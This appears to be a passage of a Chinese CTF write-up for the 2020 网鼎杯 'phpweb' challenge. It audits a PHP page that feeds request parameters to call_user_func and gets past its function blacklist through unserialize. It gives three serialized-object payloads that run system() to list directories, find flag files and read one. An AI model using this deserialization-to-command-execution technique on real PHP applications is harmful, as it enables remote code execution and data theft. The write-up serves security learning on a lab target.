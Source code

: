 ```
        }
    }
    ?> 
```

下面我们来代码审计

*   过滤敏感函数名称…很多很多
*   `call_user_func`把后买你的参数调给第一个参数代表的函数当作参数使用，于是乎才有我们能执行读取源码的操作，所以说`gettime`是一个自定义的函数，可以被我们用来执行其他函数
*   下面还定义了一个类，可能和反序列化有关
*   用`REQUEST`方式获取参数
*   对`fuc`进行过滤，如果不在黑名单里就能执行

学习前辈思想

既然是执行php函数，那可以利用反序列化进行绕过，函数为`unserialize`,参数为包含信息序列化后的结果

注意，传递的这两个参数放到代码里执行之后是成功反序列化，真正执行函数是反序列化之后出来的类执行了类里面的`gettime`函数

`func=unserialize&p=O:4:"Test":2:{s:1:"p";s:12:"ls ../../../";s:4:"func";s:6:"system";}`
但是发现找不到`flag`这个文件

> [[网鼎杯 2020 朱雀组]phpweb](https://www.cnblogs.com/h3ng/p/12971253.html)

使用`find`函数找flag

`func=unserialize&p=O:4:"Test":2:{s:1:"p";s:20:"find / -name 'flag*'";s:4:"func";s:6:"system";}`

![在这里插入图片描述](img/a04c1ba62f16c6e479718d76ab18cdfb.png)再次构造payload

`func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}`

![在这里插入图片描述](img/96fb48351e348907eea1dde534e2d03c.png)
**思路巧妙啊**

# [ASIS 2019]Unicorn shop

**崩了，前面的几道不会，我找个整块的学习时间学一下原理**

看看这个友好的题目吧